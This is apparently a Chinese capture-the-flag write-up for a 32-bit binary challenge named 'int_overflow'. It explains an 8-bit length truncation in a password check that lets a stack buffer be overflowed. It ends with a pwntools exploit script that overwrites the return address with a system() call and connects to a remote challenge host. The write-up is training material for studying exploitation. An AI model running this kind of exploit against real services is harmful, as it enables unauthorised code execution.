




# int_overflow

## 一、审题


## 二、解题思路

1、考点为整数溢出，先checksec看看保护情况，32位，got表可写，没有栈溢出保护，堆栈不可执行，代码段加载地址固定；



2、使用ida打开程序，查看伪代码，main函数中主要有两个功能，exit不用看，重点看login，在login函数中需要输入username（最长0x19）和password（最长0x199），此处不存在缓冲区溢出，再进一步看check_passwd函数，发现存在整数溢出点，如下图，v3变量的类型为unsigned __int8，只有一字节的空间，但是s数组的长度最长可达0x199，只需要满足最后一字节在4~8之间即可，这里主要是大到小的类型转换出现截断，并且dest变量的长度只有10字节，可溢出覆盖返回地址；



3、查看存在system语句，如下图，直接将返回地址改为此函数地址即可；



4、exp如下：

```python
from pwn import *

s = remote('220.249.52.133', 48307)
r_addr = 0x0804868B
payload = 'a'*0x18 + p32(r_addr) + 'a'*(0x104-0x18-0x4)

s.sendlineafter('Your choice:','1')
s.sendlineafter('Please input your username:','aaa')
s.recvuntil('Please input your passwd:')
s.sendline(payload)

s.interactive()
```

结果如下：

